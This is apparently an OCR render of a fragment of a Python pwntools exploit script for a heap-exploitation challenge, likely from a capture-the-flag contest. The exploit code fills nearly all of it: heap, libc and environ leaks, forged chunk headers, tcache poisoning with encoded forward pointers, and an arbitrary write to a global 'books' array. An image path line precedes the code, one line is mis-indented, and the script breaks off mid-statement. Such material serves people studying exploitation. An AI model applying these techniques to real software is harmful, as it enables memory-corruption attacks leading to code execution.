 ```py  
       return int(io.recvline().replace(b"\n", b"").decode(), 16) - HEAP_OFFT

   def enable_print(idx):  
       edit(idx, b"".join([  
           pwn.p64(0)  
       ]))

   def libc_leak_free(idx):  
       io.sendlineafter(b"Option: ", b"3")  
       io.sendlineafter(b"Index: ", str(idx).encode())  
       return pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00")) - STDOUT

   def leak_environ(idx):  
       io.sendlineafter(b"Option: ", b"3")  
       io.sendlineafter(b"Index: ", str(idx).encode())  
       return pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00"))

   init(b"m"*4 + pwn.p8(0x41))

   add(1, b"K"*0x10)  
   heap_leak = heapLeak(1)  
   pwn.log.success(f"heap: {hex(heap_leak)}")

   # victim  
   add(2, b"")  
   add(3, b"".join([   b"A"*0x10,  
                       pwn.p64(0), # prev_sz  
                       pwn.p64(0x21) # fake size  
                   ]))  
  
   add(4, b"".join([   b"A"*0x10,  
                       pwn.p64(0), # prev_sz  
                       pwn.p64(0x21) # fake size  
                   ]))  
   free(4) # count for 0x40 tcachebin = 1

   # chunk2 => sz extended  
   edit(1, b"K"*0x20)  
   # chunk2 => tcachebin 0x40, count = 2  
   free(2)

   # oob write over chunk3, we keep valid header  
   add(2, b"".join([   pwn.p64(0)*3,  
                       pwn.p64(0x41) # valid size to end up in the 0x40 tcache bin  
                   ])) # count = 1

   # chunk3 => 0x40 tcachebin, count = 2  
   free(3)

pwn.log.info(f"Encrypted fp: {hex(encode_ptr(heap_leak, CHUNK3_OFFT,
exe.got.printf))}")

   # tcache poisoning  
   edit(2, b"".join([   pwn.p64(0)*3,  
                        pwn.p64(0x41), # valid size  
                        pwn.p64(encode_ptr(heap_leak, CHUNK3_OFFT, exe.sym.books)) # forward ptr  
                    ]))

   # dumb  
   add(3, b"A"*0x20) # count = 1

   # arbitrary write to @books, this way books[1] is user controlled  
   add(4, b"".join([  
```